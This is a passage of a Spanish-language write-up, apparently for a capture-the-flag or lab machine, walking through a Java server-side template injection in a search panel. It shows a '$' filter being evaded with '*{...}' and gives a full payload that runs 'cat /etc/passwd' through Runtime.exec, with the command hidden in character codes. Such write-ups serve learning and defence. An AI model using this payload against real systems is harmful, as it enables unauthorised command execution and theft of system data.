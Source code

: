 ## Explotación

### SSTI

Vemos que hay un panel de búsqueda que refleja lo que ponemos, si intentamos un `SSTI` de [Java](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md), nos bloqueará por el `$`:

![Banned chars](./2.png)

Sin embargo, nos pone que podemos usar `*` entre otros carácteres, si probamos `*{7*7}`:

![Success SSTI](./3.png)

Si probamos el siguiente payload para intentar un `LFI` vemos lo siguiente:

```java wrap=false
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

![LFI](./4.png)
